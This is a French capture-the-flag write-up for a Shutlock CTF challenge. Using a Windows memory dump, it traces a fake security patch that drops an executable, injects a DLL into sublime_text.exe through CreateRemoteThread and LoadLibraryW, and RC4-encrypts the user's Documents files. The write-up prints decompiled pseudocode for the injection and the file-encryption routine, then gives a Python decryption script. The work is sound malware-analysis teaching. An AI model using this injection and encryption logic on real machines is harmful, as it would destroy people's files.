

## Description

Un employé de Roma Inc., a reçu une information de l'équipe IT de son entreprise à propos d'un patch de sécurité à appliquer. Il a donc téléchargé le patch depuis le site du service informatique, mais il a trouvé le patch assez étrange. Néanmoins comme il n'a pas de connaissance en informatique, il l'a tout de même exécuté. Après l'exécution du patch, tous ses fichiers personnels semblent corrompus, il vous a donc appelé en urgence et vous avez effectué un dump mémoire de son PC.

Serez-vous capable de comprendre ce qu'il s'est passé ?

SHA256(OMG-infected.zip) = 59BAC9645BE65FAF79DB4A72E879CD10F736D8102EEE58DB954C070D37C9ABA1 : 877094618 octets

SHA256(dump.raw) = 0B3CA2E3CDEC7A3820AB7673915BA29A405608C184F182811067D899AB48441C : 2147483648 octets

## Objectif de la création de ce challenge

J'ai créé ce challenge pour la première édition du CTF Shutlock, l'objectif de ce challenge est de permettre une première expérience en analyse de malware via l'analyse d'un dump mémoire puis en reversant un exécutable injectant une DLL dans un processus.

## Solve

### TL;DR

* Trouver le processus dropé par le patch.ps1
* Reverse l'exécutable pour voir l'injection de kernel64.dll dans sublime_text
* Reverse kernel64.dll pour voir que les fichiers sont chiffrés avec RC4 et une clé xorée avec le PID de sublime_text
* Déchiffrer secret.png pour voir le flag

### Informations trouvées grâce à l'énoncé

D'après l'énoncé on apprend plusieurs informations:
- Patch téléchargé depuis internet 
- Patch executé sur le PC
- Fichier corrompu (ransomware ?)

Fichier donné : `dump.ram` , est un dump mémoire d'un Windows 10
### Découverte des processus

```
$ python.exe .\vol.py -f dump.raw windows.cmdline.CmdLine 

6788 sublime_text.e "C:\Program Files\Sublime Text 3\sublime_text.exe"

4512 powershell.exe "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -ExecutionPolicy Bypass .\patch.ps1 

6056 tmp1440.exe "C:\Users\W10-challs\AppData\Local\Temp\tmp1440.exe"

```

On voit parmis les processus lancé, 2 processus particulièrement interressant : 
* `powershell.exe` : qui a exécuté un script powershell `patch.ps1` qui est surement le patch de la description du challenge
* `tmpA9C3.exe` : un processus présent dans les fichiers temporaire (ce qui est pas souvent légitime)

```
$ python.exe .\vol.py -f dump.raw windows.pstree.PsTree

**** 4512	7720	powershell.exe	0xe785bbbd3080	33	-	1	False	2024-06-19 20:29:45.000000 	N/A	\Device\HarddiskVolume3\Windows\System32\WindowsPowerShell\v1.0\powershell.exe	"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -ExecutionPolicy Bypass .\patch.ps1	C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
***** 6056	4512	tmp1440.exe	0xe785bb4fb080	1	-	1	False	2024-06-19 20:30:06.000000 	N/A	\Device\HarddiskVolume3\Users\cesar\AppData\Local\Temp\tmp1440.exe
```

De plus, on remarque que le `powershell.exe` ayant exécuté le `patch.ps1` a droppé l'exécutable temporaire, ce qui est encore plus étrange.

## Reverse de l'exécutable temporaire

On peut récupérer cet exécutable grâce à MemprocFS (https://github.com/ufrisk/MemProcFS) :
`M:\pid\6056\files\modules\tmp1440.exe

Fonction main: 
```c
1400019e5      __builtin_memset(s: &s_1, c: 0, n: 0x28)
140001a04      int64_t kernel64_path
140001a04      __builtin_memcpy(dest: &kernel64_path, src: u"C:\Windows\Temp\kernel64.dll…", n: 0x38)
140001a57      int64_t var_220 = 0
140001a6c      void s
140001a6c      __builtin_memset(s: &s, c: 0, n: 0x1c0)
140001a6f      uint64_t buff_size = 0x200
140001a7a      int64_t var_260 = 0
140001a8c      uint32_t S_PID = findPID("sublime_text.exe")
140001ab1      HANDLE hProcess = OpenProcess(dwDesiredAccess: PROCESS_ALL_ACCESS, bInheritHandle: 0, dwProcessId: S_PID)
140001ac2      if (hProcess == 0)
140001ad6          printf("ERROR when trying to create an h…", zx.q(S_PID))
140001ac2      else
140001b02          printf("Successfuly got and Handle 0x%p …", hProcess)
140001b18          HMODULE hModule
140001b18          int64_t rdx_4
140001b18          hModule, rdx_4 = GetModuleHandleW(lpModuleName: u"kernel32")
140001b29          if (hModule == 0)
140001b35              printf("ERROR when trying to get an hand…", rdx_4)
140001b29          else
140001b5c              LPTHREAD_START_ROUTINE lpStartAddress = GetProcAddress(hModule, lpProcName: "LoadLibraryW")
140001b93              int64_t lpBaseAddress = VirtualAllocEx(hProcess, lpAddress: nullptr, dwSize: buff_size, flAllocationType: MEM_COMMIT | MEM_RESERVE, flProtect: PAGE_READWRITE)
140001ba4              if (lpBaseAddress != 0)
140001bcd                  enum PAGE_PROTECTION_FLAGS var_288_1
140001bcd                  var_288_1.q = &var_260
140001bdc                  WriteProcessMemory(hProcess, lpBaseAddress, lpBuffer: &kernel64_path, nSize: buff_size, lpNumberOfBytesWritten: var_288_1)
140001c04                  var_288_1.q = lpBaseAddress
140001c21                  HANDLE hHandle = CreateRemoteThread(hProcess, lpThreadAttributes: nullptr, dwStackSize: 0, lpStartAddress, lpParameter: var_288_1, dwCreationFlags: 0, lpThreadId: nullptr)
140001c32                  if (hHandle == 0)
140001c49                      printf("Failed to create remote thread, …", zx.q(GetLastError()))
140001c32                  else
140001c6b                      WaitForSingleObject(hHandle, dwMilliseconds: 0xffffffff)
140001c6e                      while (true)
```

Fonctionnement:
* Recupère le path de la dll qui est dans le dossier temporaire
* Ouvre un handle sur le process "sublime_text.exe" qui tourne sur le PC
* Inject la DLL dans le process 

On va donc récupérer la dll kernel64.dll grâce à MemprocFS : 
`M:\name\sublime_text.e-6788\files\modules\kernel64.dll`

## Reverse de la DLL

DllMain :
```c
292c71c86  int64_t DllMain(int64_t arg1, int32_t arg2)

292c71c8e      arg_8 = arg1
292c71c95      int64_t r8
292c71c95      arg_18 = r8
292c71cbb      if (arg2 != 3 && arg2 u<= 3 && arg2 != 2 && arg2 u<= 2 && arg2 != 0 && arg2 == 1)
292c71cbd          encode()
292c71cd5      return 1
```

Le main appelle juste une fonction `encode` :

```c
276071e7c  uint64_t encode()

276071e97      char PID = findPID("sublime_text.exe")
276071ec2      MessageBoxA(hWnd: nullptr, lpText: "Patch applique", lpCaption: "patch de securite", uType: MB_OK)
276071ec4      char* userdir = getUserDocumentsDirectory()
276071ed4      char const* const key = "Sup3R_k3y_th4t_is_secret"
276071edf      int32_t key_len = strlen(_Str: "Sup3R_k3y_th4t_is_secret")
276071ef1      int64_t var_40 = sx.q(key_len) - 1
276071eff      uint64_t rax_4 = (sx.q(key_len) + 0xf) u>> 4 << 4
276071f03      _.text(rax_4)
276071f4e      void encoded_key
276071f4e      for (int32_t i = 0; i s< key_len; i = i + 1)
276071f41          *(&encoded_key - rax_4 + 0x20 + sx.q(i)) = key[sx.q(i)] ^ PID
276071f70      return cipher_files(userdir, &encoded_key - rax_4 + 0x20, key_len)
```
Fonctionnement:
* recupère le PID de sublime_text.exe
* Encode une clé `Sup3R_k3y_th4t_is_secret` ^ PID_sublime_text
* Affiche "Patch applique" via une MsgBox
* Appelle une fonction `cipher_files` avec comme argument le path du directory Document du Current Users, la clé et la longueur de la clé

```c
292c71aad  uint64_t cipher_files(char* UserDocuments, int32_t S_PID)

292c71ad4      struct { struct _finddata64i32_t dd_dta; struct dirent dd_dir; __padding char _234[0x4];long long int dd_handle; int dd_stat; char dd_name[0x1]; }* dirp = opendir(szPath: UserDocuments)
292c71ae8      uint64_t rax_1
292c71ae8      if (dirp == 0)
292c71af8          rax_1 = perror(_ErrorMessage: "Failed to open directory")
292c71ae8      else
292c71bf5          while (true)
292c71bf5              struct dirent* directory = readdir(dirp)
292c71c09              if (directory == 0)
292c71c09                  break
292c71b1e              if (strcmp(_Str1: &directory->d_name, _Str2: &_".") != 0 && strcmp(_Str1: &directory->d_name, _Str2: &_"..") != 0)
292c71b5d                  char (* var_458_1)[0x104] = &directory->d_name
292c71b74                  void _Filename
292c71b74                  snprintf(&_Filename, 0x400, "%s/%s", arg1)
292c71b84                  void _Stat
292c71b84                  stat(_Filename: &_Filename, _Stat: &_Stat)
292c71b9a                  int16_t var_442
292c71b9a                  if ((zx.d(var_442) & 0xf000) == 0x8000)
292c71bad                      printf("File: %s\n", &_Filename)
276071e09                      encode_file(&_Filename, key, key_len)
292c71b9a                  else if ((zx.d(var_442) & 0xf000) == 0x4000)
276071e3a                      cipher_files(&_Filename, key, key_len: zx.q(key_len))
292c71c19          rax_1 = closedir(dirp)
292c71c27      return rax_1
```

Fonctionnement:
* itère sur tous les dossiers et sous-dossiers du dossier Document de l'utilisateur
* appelle la fonction encode_files sur tous les fichiers avec comme argument le nom de fichier, la clé et la longueur de la clé

```c
276071b1b  int64_t encode_file(char* filename, void* key, int32_t key_len)

276071b51      FILE* file_p = fopen(_FileName: filename, _Mode: &rb)
276071b65      int64_t rax_1
276071b65      if (file_p == 0)
276071b71          rax_1 = perror(_ErrorMessage: "Failed to open file")
276071b65      else
276071b90          fseek(_Stream: file_p, _Offset: 0, _Origin: 2)
276071b9f          int32_t data_len = ftell(_Stream: file_p)
276071bbf          fseek(_Stream: file_p, _Offset: 0, _Origin: 0)
276071bcf          void* data = malloc(_Size: sx.q(data_len))
276071be3          if (data != 0)
276071c2d              fread(_Buffer: data, _ElementSize: 1, _ElementCount: sx.q(data_len), _Stream: file_p)
276071c49              void S
276071c49              init(key, &S, key_len)
276071c65              crypt(data, data_len, &S)
276071c7f              fseek(_Stream: file_p, _Offset: 0, _Origin: 0)
276071ca9              fwrite(_Buffer: data, _ElementSize: 1, _ElementCount: sx.q(data_len), _Stream: file_p)
276071cb8              fflush(_Stream: file_p)
276071cc7              free(_Block: data)
276071cd6              rax_1 = fclose(_Stream: file_p)
276071be3          else
276071bef              perror(_ErrorMessage: "Failed to allocate memory")
276071bfe              rax_1 = fclose(_Stream: file_p)
276071ce4      return rax_1
```

* En regardant les fonction init et crypt, on peut voir qu'il s'agit de l'algo RC4 initié avec la clé précédemment encodé
* L'algo RC4 est donc utilisé pour chiffrer les documents

## Flag 

Avec toutes ces informations nous pouvons flag le challenge, on récupère les fichiers dans le dossier Document grâce à MemprocFS : `M:\forensic\files\ROOT\Users\cesar\Documents\ffffe785bb82eef0-secret.png`

Qu'on peut décoder grâce à un petit script python pour déchiffrer en utilisant RC4 et la clé :
```python
import os
import struct

def init_rc4(key):
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    return S

def rc4_crypt(data, S):
    i = j = 0
    result = bytearray(data)
    for k in range(len(data)):
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        result[k] ^= S[(S[i] + S[j]) % 256]
    return result

def decode_file(filename, rc4_key):
    with open(filename, 'rb') as file:
        data = file.read()

    S = init_rc4(rc4_key)
    decrypted_data = rc4_crypt(data, S)

    with open(filename, 'wb') as file:
        file.write(decrypted_data)


def decode():
    ## pid de sublime_text = 6788
    pid = 6788
    base_key = "Sup3R_k3y_th4t_is_secret"
    key_length = len(base_key)
    rc4_key = bytearray((ord(base_key[i]) ^ pid) & 0xFF for i in range(key_length))

    decode_file("secret.png", rc4_key)

if __name__ == "__main__":
    decode()
```




